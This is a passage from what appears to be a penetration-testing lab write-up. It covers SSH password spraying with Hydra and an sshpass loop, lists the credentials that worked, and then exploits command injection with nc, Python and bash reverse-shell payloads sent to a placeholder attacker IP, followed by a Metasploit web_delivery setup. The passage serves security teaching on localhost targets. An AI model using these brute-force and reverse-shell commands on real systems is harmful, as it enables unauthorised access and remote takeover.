 ```bash
admin
123456
EOF

# Use Hydra for password spraying
hydra -L users.txt -P passwords.txt ssh://localhost:2222

# Or use individual tests
for user in admin developer backup testuser dbadmin; do
  for pass in "Admin123!" "Password1" "Dev2024!" "Backup123" "test"; do
    sshpass -p "$pass" ssh -o StrictHostKeyChecking=no -p 2222 $user@localhost "whoami" 2>/dev/null && \
      echo "[+] Success: $user:$pass"
  done
done
```

**Successful credentials:**
```
admin:Admin123!
developer:Dev2024!
backup:Backup123
testuser:test
dbadmin:Database!
```

### 3.4 Command Injection Exploitation (Cours 08)

#### Manual Exploitation

```bash
# Basic reverse shell payload
curl -s "http://localhost:8080/api/admin/system?cmd=nc%20-e%20/bin/sh%20<attacker-ip>%204444"

# Python reverse shell
PAYLOAD='python3 -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<attacker-ip>\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])"'

curl -s "http://localhost:8080/api/admin/system?cmd=$PAYLOAD"

# Bash reverse shell
PAYLOAD='/bin/bash -i >& /dev/tcp/<attacker-ip>/4444 0>&1'
curl -s "http://localhost:8080/api/admin/system?cmd=$PAYLOAD"
```

#### Using Metasploit

```bash
# Start Metasploit
msfconsole

# Use web delivery exploit
use exploit/multi/script/web_delivery
set TARGET 6  # Python
set PAYLOAD python/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT 4444
set SRVHOST <attacker-ip>
set SRVPORT 8000
exploit -j

# The exploit will generate a command like:
```